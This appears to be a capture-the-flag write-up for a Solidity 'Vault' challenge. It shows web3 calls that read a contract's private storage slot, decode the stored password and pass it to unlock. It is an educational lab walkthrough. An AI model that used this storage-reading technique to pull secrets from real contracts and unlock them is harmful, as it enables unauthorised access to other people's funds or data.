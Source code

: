 # Vault

As I wasn't sure how to approach this. I googled "solidity bytes32 exploit" and found this(https://solidity-by-example.org/hacks/accessing-private-data/)

## Solution

This was sort of facepalm moment for me because its obvious that if the the password is stored on the blockchain anyone can see it.

```js
await web3.eth.getStorageAt(instance, 1, console.log);
```

And it gave

```js
"0x412076657279207374726f6e67207365637265742070617373776f7264203a29"
```

If we decode the hex we get: `A very strong secret password :)`

So now we can just call the unlock function with this:

```js
password = await web3.eth.getStorageAt(instance, 1, console.log);
await contract.unlock(password);
```

![](images/8-vault0.png)